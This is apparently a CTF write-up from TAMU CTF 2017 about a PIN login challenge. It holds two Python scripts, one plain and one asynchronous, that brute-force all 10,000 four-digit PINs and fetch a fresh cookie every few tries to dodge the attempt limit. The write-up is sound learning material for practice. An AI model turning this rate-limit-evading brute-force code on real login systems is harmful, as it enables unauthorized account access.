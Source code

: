 # TAMU_CTF-2017-Writeups
Writeups for challenges I solved in the TAMU 2017 CTF

I am on my laptop right now, I will sperate the chalanges later

## Preliminary Research
The link in question is http://pin.ctf.tamu.edu/ and there is not much too it.  After clicking a link called 'login' you get to http://pin.ctf.tamu.edu/login, this is where the fun is to be had.

I looked at the source code, but there was nothing of interest, looks like we will have to brute-force this.

I opened up [BurpSuite](https://portswigger.net/burp/) and took a look at the POST requests, there was a cookie called **uid** and then the pin, called **pin**; referer was also set as pin.ctf.tamu.edu.

I sent the POST over to the 'repeater' feature in BurpSutie.  I just wanted to try some basic combinations and save myself the time of brute-forcing.  I tried 0000, 6969, 9999, 1111, then something weird happened, I didn't get the usual error message, I got *WRONG: too many tries*.

After some testing and consulting my teammates at Umbra, we came to the conclusion that the cookie was only good for 4 tries.

So now we know what we have to do, try all 10 000 pins from 0000-9999 but get a new cookie every 4 attempts.

## The code
Normally I would use [Hydra](http://sectools.org/tool/hydra/), but Hydra wants a login and a password.  So for this I used [Python3](https://www.python.org/downloads/) with the [requests](http://docs.python-requests.org/en/master/) library.

This was the code I settled on:
```python
#!/usr/env/python3

import requests

#send a GET to refresh uid cookie
def get_cookie(url, cookie_id):
    return {cookie_id: requests.get(url).cookies[cookie_id]}

#'0000' - '9999'
pins = [str(i).zfill(4) for i in range(10000)][400:]

t_url = "http://pin.ctf.tamu.edu/login"
t_headers={'referer': 'http://pin.ctf.tamu.edu/login'}
i = 0 #lazy counter

for pin in pins:
    #every 4 attempts cookie needs to be refreshed
    if i % 3 == 0:
        t_cookies = get_cookie(t_url, 'uid')
    pin_field = {'pin': pin}
    r = requests.post(t_url, data=pin_field, cookies=t_cookies, headers=t_headers)
    if "WRONG" not in r.text:
        print(r.text)
    print(pin)
    i += 1
```

This code *will* work, but it is SLOW.  It took 20-30min to get the pin and it wasn't even half way through all possible values.  So I decided to write something faster using pythons async.  If you don't know what async is, it is like threading but neater.

I used the [grequests](https://github.com/kennethreitz/grequests) library for the following faster code:
```python
#!/usr/env/python3

#Values prefixed with 't_' are user defined
#'t_' is short for 'target_'

import grequests
import requests

def get_cookie(url, cookie_id):
    return {cookie_id: requests.get(url).cookies[cookie_id]}

def gpost_it(t_url, t_data, t_cookies, t_headers):
    return grequests.post(
        t_url, 
        data=t_data, 
        cookies=t_cookies, 
        headers=t_headers)

pins = [str(i).zfill(4) for i in range(10000)]

t_url = "http://pin.ctf.tamu.edu/login"
t_headers={'referer': 'http://pin.ctf.tamu.edu/login'}
t_cookies = get_cookie(t_url, 'uid')
to_do = []

print("Running aysnc batches of 4 requests each for cookie refreshing")
for i, pin in enumerate(pins):
    to_do.append(gpost_it(t_url, {'pin': pin}, t_cookies, t_headers))
    
    if i % 3 == 0:
        t_cookies = get_cookie(t_url, 'uid')
        to_do = set(to_do) #Done for performance
        
        for response in grequests.map(to_do):
            if "WRONG" not in response.text:
                print(response.text)
                break
            
            elif "tries" in response.text:
                print("too many tries error, adjust cookie refresh")
        
        to_do=[] #Reset list
    
    #Just me being fancy
    percent_complete = round(i/len(pins) * 100, 2)
    if percent_complete % 5 == 0:
        print(int(percent_complete), "%", end='\r')

print("C'est fini")
```
Due to the fact that in order to run async you need to assemble a 'to do' list first, and that list will be executed in pseudo-random order, we can only afford to run batches of 4 POSTs at a time, or the cookie might expire.  This requires some more code, but it **is** faster.  This wil get the flag in just under 15min.

Also because the second one was not written just as I went along, it is much neater and more 'pythonic'.
